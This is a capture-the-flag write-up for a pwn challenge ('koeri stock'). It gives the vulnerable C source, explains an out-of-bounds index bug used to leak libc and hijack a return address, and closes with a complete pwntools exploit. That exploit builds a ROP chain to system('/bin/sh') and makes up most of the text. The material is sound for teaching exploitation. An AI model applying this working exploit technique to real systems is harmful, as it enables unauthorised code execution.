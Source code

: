 This chall has 17 solves durning the competition.
We are given the source code in this chall aswell:

```
#include <stddef.h>
#include <string.h>
#include <stdio.h>
#include <unistd.h>

#define ALARM_SECONDS 60

void be_a_ctf_challenge() {
    alarm(ALARM_SECONDS);
    setvbuf(stdout, (char *)0x0, 2, 1);
}

void koeri_choice(int data[7], int add) {
    int koeri_choice;
    int amount;
    int max_koeri = sizeof(*data) * sizeof(int);
    puts("Which kœri to add?");
    puts("[0] Sauce [1-6] Spice N");
    scanf("%d", &koeri_choice);
    if (koeri_choice < max_koeri) {
        puts("Amount");
        scanf("%d", &amount);
        if (add) {
            data[koeri_choice] += amount;
        } else {
            data[koeri_choice] -= amount;
            if (data[koeri_choice] < 0) {
                printf("Error, %d is an illegal value! Resetting to zero. Recount!\n",
                        data[koeri_choice]);
                data[koeri_choice] = 0;

            }
        }
    }
    else {
        puts("We do not have that kœri, yet");
    }
}

void print_stock(int data[7]) {
    for (int i = 0; i < 7; i++) {
        if (i == 0) {
            printf("Kœri sauce: %d\n", data[i]);
        }
        else {
            printf("Kœri spice no. %d: %d\n", i, data[i]);
        }
    }
}

int main(int argc, char** argv) {
    be_a_ctf_challenge();
    int choice;
    int data[7] = {0};
    while (1) {
        puts("[1] Add kœri to stock [2] Subtract kœri to stock\n[3] Print kœri stock [4] Exit");
        scanf("%d", &choice);
        if (choice == 1) {
            koeri_choice(data, 1);
        } else if (choice == 2) {
            koeri_choice(data, 0);
        } else if (choice == 3) {
            print_stock(data);
        } else if (choice == 4) {
            puts("Exiting...");
            break;
        } else {
            puts("Invalid choice");
        }
    }
    return 0;
}

```

The bug here is inside the `koeri_choice` function.
when we enter index, it only checks if `index < sizeof(*data) * sizeof(int)`. but index will be an index in the array of size 7, and the left side of the equation will be the size of the array in memory. which is 7*8. so we have an oob here.
We can basiclly add anything we want to the RIP/RBP, and with the subtract option, if `data[index] - amount < 0`, it will give us a leak.
So first of all, lets leak libc.
we can do it by using our Out-Of-Bounds primitive, and subtract a really big number from main's return pointe, which is index 14 in the array (its a libc address, and it will not interrupt the execution until the program ends)
the lower 4 bytes of main's return pointer is already negative, so we can basiclly do `subtract(14, 0)`, and get the lower bytes.
To get the most siginifcant bytes, we can subtract a really big number, leak the value, and add the number to cancel the subtraction:
```py
	libc_lower = 0xffffffff + substract(14, 0)+ 1
	libc_upper = (0xffffffff + substract(15, 0x10000000) + 1 + 0x10000000) & 0xffffffff
	libc.address = ((libc_upper << 32) + libc_lower)- 0x23510
  ```
  
  now, we'll use the same primitive to control code execution.
  since we don't have a PIE leak, we can't really do a ret2libc, because we would need to change the function's return ptr, which is a binary address we don't know.
  But, we CAN jump to any gadget inside the binary. the offsets of addresses are constant, so `koeri_choice_ret_addr - some_gadget` = constant. this means we can add this constant to the return ptr, and jump to our gadget.
  In my exploit, I used an `add rsp, 0x20 ; pop rbp ; ret` gadget, to pivot our stack. in fact, the add rsp; pop, is enough to make rsp be inside our `data` buffer. then we have a complete libc rop chain.
  (I zeroed our the values in the array, using `substract(index, 0x10000000)`, and the nadded our addresses.)
  
  Full exploit:
  
  ```py
 from pwn import *


libc = ELF('./libc.so.6')
#p = remote('koeri-stock-0.chals.kitctf.de', 1337, ssl=True)
p = gdb.debug('./main')
libc_rop = ROP(libc)

def add(idx, amount):
	p.recvuntil('Exit')
	p.sendline('1')
	p.recvuntil("Spice N")
	p.sendline(str(idx))
	p.recvline()
	p.sendline(str(amount))


def substract(idx, amount):
	(p.recvuntil('Exit\n'))
	p.sendline('2')
	(p.recvuntil("Spice N"))
	p.sendline(str(idx))
	(p.recvline())
	p.sendline(str(amount))
	(p.recvline())
	res = p.recvline()
	if b'Error' in res:
		res = res.replace(b' is an illegal value! Resetting to zero. Recount!\n', b'').replace(b'Error, ', b'')
		return int(res)
	return None

def add_rop_address(index, addr):
	#zero out the array elements

	substract(index, 0x10000000)
	substract(index+1, 0x10000000)

	#add the addreeses
	add(index, addr & 0xffffffff)
	add(index+1, (addr >> 32))


def main():

	libc_lower = 0xffffffff + substract(14, 0)+ 1

	libc_upper = (0xffffffff + substract(15, 0x10000000) + 1 + 0x10000000) & 0xffffffff

	libc.address = ((libc_upper << 32) + libc_lower)- 0x23510


	POPRDI = libc.address + (libc_rop.find_gadget(['pop rdi', 'ret']))[0]
	RET = libc.address + (libc_rop.find_gadget(['ret']))[0]
	SYSTEM = libc.sym["system"]
	BINSH = next(libc.search(b"/bin/sh"))

	print("Libc address is", hex(libc.address))
	print("POPRDI address is", hex(POPRDI))
	print("SYSTEM address is", hex(SYSTEM))
	print("BINSH address is", hex(BINSH))


	add_rop_address(2, RET)
	add_rop_address(4, POPRDI)
	add_rop_address(6, BINSH)
	add_rop_address(8, SYSTEM)

	#this gadget will move the stack inside the data array, which will give us a complete rop chain

	fake_stack_gadget = 0x12e0 # add rsp, 0x20 ; pop rbp ; ret
	koeri_choice_ret = 0x13de

	add(-10, (fake_stack_gadget - koeri_choice_ret)) #we don't need PIE leak here, because we can just add a constant address from one instruction to another
	p.interactive()


main()
```
  
